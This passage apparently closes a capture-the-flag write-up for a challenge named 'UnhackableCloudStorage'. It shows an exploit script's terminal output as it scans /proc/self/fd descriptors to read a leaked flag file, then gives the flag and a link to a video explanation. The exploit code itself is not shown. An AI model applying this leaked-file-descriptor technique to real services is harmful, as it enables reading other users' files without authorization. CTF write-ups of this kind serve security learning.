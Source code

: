 ```bash
➜ py .\UnhackableCloudStorage\exploit.py
[+] User '0pwned' registered
[*] Flag Buffer Opened
Trying File Descriptor: /proc/self/fd/32
Trying File Descriptor: /proc/self/fd/31
Trying File Descriptor: /proc/self/fd/30
Trying File Descriptor: /proc/self/fd/29
Trying File Descriptor: /proc/self/fd/28
Found Readable File: d4rk{d0nt_leav3_0pen_fDs}c0de
```

> Flag: d4rk{d0nt_leav3_0pen_fDs}c0de
{: .prompt-tip }

### Note

[PwnFunction](https://www.youtube.com/@PwnFunction) goes into more details with practical live example: <https://youtu.be/6SA6S9Ca5-U>